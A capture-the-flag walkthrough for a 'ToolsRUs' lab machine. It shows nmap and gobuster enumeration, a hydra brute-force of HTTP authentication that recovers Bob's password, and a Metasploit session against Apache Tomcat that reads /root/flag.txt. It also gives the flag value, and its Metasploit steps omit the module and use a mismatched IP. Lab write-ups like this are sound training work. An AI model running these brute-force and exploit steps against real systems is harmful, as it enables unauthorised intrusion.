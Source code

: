 # ToolsRUs

IP: 10.10.154.123

![image](https://user-images.githubusercontent.com/44063862/160221235-156f6012-65f8-4999-9204-590ac21d8733.png)

### Penetration Testing Methodology

![image](https://user-images.githubusercontent.com/44063862/160220590-db70b7dd-a85c-407f-b5d8-e42e9fa58dc3.png)

**Reconnasance**
* nmap

**Enumerating**
* gobuster
* hydra

**Exploitation**
*

**Privilege Escalation**
*

**Capture-the-flag**
* user.txt
* root.txt

----------------------------------------------------------------
### Walkthrough

> nmap -A -v 10.10.154.123

![image](https://user-images.githubusercontent.com/44063862/160220987-1488e56b-495e-432b-b918-d18d0210edca.png)

From the nmap scanning. I found that 4 port open. Which is

* 22 (ssh)
* 80 (http)
* 1234 (http)
* 8009 (ajp13)

> gobuster dir -u 10.10.154.123 -w /root/Lists/directory-list-2.3-medium.txt

![image](https://user-images.githubusercontent.com/44063862/160221188-392ad5e9-feee-40ae-a7b8-10ae513d9ca2.png)

* /guidelines
* /protected

![image](https://user-images.githubusercontent.com/44063862/160221062-7041cfd6-1a21-43a5-ab6f-fecdf772b4f1.png)
--> msg for Bob 

![image](https://user-images.githubusercontent.com/44063862/160221118-9f0c0a30-8719-4f27-8898-9158da18f847.png)
--> need authentication

> hydra -l bob -P /usr/share/wordlists/rockyou.txt -f 10.10.154.123 http-get /protected/

![image](https://user-images.githubusercontent.com/44063862/160221388-f0cc4148-fdef-4f19-8ab4-a5970257940f.png)

Username: Bob
Password: bubbles

**Other web service**

http://10.10.154.123:1234/

![image](https://user-images.githubusercontent.com/44063862/160221451-8e13a0aa-47fe-4626-9f74-e58369e92098.png)

Apache Tomcat/7.0.88

> nikto -h http://10.10.154.123/

![image](https://user-images.githubusercontent.com/44063862/160222653-dbc23994-9476-41de-bf8c-0b5a74ce12ad.png)

Apache/2.4.18

Find vulnerability for **Apache Tomcat/Coyote JSP engine 1.1**

```
msfconsole -q
set HttpUsername bob
set HttpPassword bubbles
set RHOSTS 10.10.231.52
set RPORT 1234
options
```

![image](https://user-images.githubusercontent.com/44063862/160222883-5cfe51ca-f2dc-483e-9d34-759e7d222022.png)

> run

![image](https://user-images.githubusercontent.com/44063862/160223129-1db51206-c050-4bc3-96cc-4a69ad9a25d9.png)

> getuid

![image](https://user-images.githubusercontent.com/44063862/160223136-11d8b898-555b-4375-9567-d98739e6e6ab.png)

> cat /root/flag.txt

![image](https://user-images.githubusercontent.com/44063862/160223208-dfb7ed1c-a715-451d-99ba-1302c8622dc9.png)

flag.txt: ff1fc4a81affcc7688cf89ae7dc6e0e1


